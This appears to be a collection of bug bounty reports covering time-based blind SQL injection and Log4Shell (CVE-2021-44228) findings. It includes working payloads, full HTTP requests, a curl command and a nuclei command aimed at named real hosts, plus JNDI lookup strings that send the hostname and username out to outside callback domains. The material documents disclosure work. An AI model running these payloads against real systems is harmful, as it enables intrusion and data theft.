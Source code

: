 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions

___________________________________


______________________________________

# Arbitrary Code Execution on ng01-cloud.acronis.com

Bir gün, uygulamanın içinde bir güvenlik açığı olduğunu fark ettim. Bu güvenlik açığı, internette "Log4Shell" olarak bilinen ve ciddi bir tehdit oluşturan bir problem. Log4j adlı bir yazılım kütüphanesi, internetten gelen verileri işlerken bazı hatalar yapıyor ve bu hatalar, kötü niyetli bir kişinin uzaktan, sanki bilgisayarın başında oturuyormuş gibi komutlar çalıştırmasına olanak tanıyor. Bu problem "CVE-2021-44228" koduyla tanımlanmış.

Neler Yaptım:

Bu açığı test etmek için bir yöntem buldum. Bu yöntemde Burp Collaborator adlı bir aracı kullandım. Bu araç, uygulamanın internet üzerinden verdiği tepkileri izlememi sağlıyor.

İlk olarak, bu aracı kullanarak bir komut oluşturdum. Bu komut, belirli bir internet adresine (COLLABORATOR_URL) bir istek gönderiyor. Komutu şu şekilde yazdım:

```bash
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```
https://ng01-cloud.acronis.com
Bu Komut Ne Yapar?

Bu komut, belirli başlıklar (User-agent, X-Forwarded-For, Referer) kullanarak uygulamaya istek gönderiyor. Başlıkların içindeki ${jndi:ldap://...} kısmı ise, uygulamanın içindeki Log4j kütüphanesine "Bir internet adresine git ve oradan bazı bilgiler al" diyor.

Eğer bu açığın olduğu bir uygulamaya bu komutu gönderirseniz, Log4j kütüphanesi bu isteği işlerken benim belirttiğim internet adresine bir bağlantı yapmaya çalışıyor. Bu bağlantı başarılı olursa, bu uygulamanın zafiyeti olduğunu kanıtlamış oluyorum.

Sonuç:

Uygulama bana kendi sistem adını (hostname) gönderdi. Bu, uygulamanın dışarıdan gelen bu tehlikeli isteği işlediğini ve sonuç olarak sistemde uzaktan komut çalıştırmanın mümkün olduğunu gösterdi.

Etkisi:

Bu açıktan faydalanan kötü niyetli biri, uygulamaya uzaktan komutlar gönderip, bu komutları sistem üzerinde çalıştırabilir. Bu, sistemin tamamen ele geçirilmesine kadar varabilecek ciddi güvenlik riskleri oluşturur.
__________________________________
## Summary

Hi team,

It seems that the machine is affected by the latest CVE-2021-44228 which grants any authenticated user command execution. The vulnerability affects the remote asset forum.acronis.com and this issue allows to remote attackers to perfom Remote Code Execution via JNDI exfiltration.

## Steps To Reproduce

Vulnerable request is: `https://forum.acronis.com/search?s=${j${main:\k5:-Nd}i${spring:k5:-:}ldap://${sys:user.name}-04363f1f3427b48.test3.ggdd.co.uk/}`.

Which generates a pingback exfiltrating the information to my controlled server `ggdd.co.uk`:

{F1551515}

We can see that the system username is `solr`.

## Recommendations

Upgrade Log4j to latest version, 2.1.17.

## Impact

Remote OS command injection via JNDI queries.
___________________________________
###Summary
Hello,

I would to like report this security flaw on http://mtn1app.mtncameroon.net . Using script nuclei i can found CVE-2021-44228. This is a critical issue cause as remote command execution. On my test i just retrive hostname of machine via nuclei script. (https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

###Steps To Reproduce
How we can reproduce the issue;

1. run nuclei script via cmd; ./nuclei -u http://mtn1app.mtncameroon.net:8080/ -t ../nuclei-templates/cves/2021/CVE-2021-44228.yaml

It will retrive the hostname of machine on output " lastic-co1-nodes1.mtnnigeria.net"

Like this;

````
http://mtn1app.mtncameroon.net:8080/?x=${jndi:ldap://${hostName}.c6s11oscca8f9pc2lrggcghbnjyyyybjg.interact.sh/a} [lastic-co1-nodes1.mtnnigeria.net]
````

This vulnerability is on port 8080 and 8443;

* http://mtn1app.mtncameroon.net:8080
* https://mtn1app.mtncameroon.net:8443



###Mitigation
Update according the vendor and thecnical references..

###References
https://www.tenable.com/blog/cve-2021-44228-proof-of-concept-for-critical-apache-log4j-remote-code-execution-vulnerability
https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476

## Impact

Remote command execution

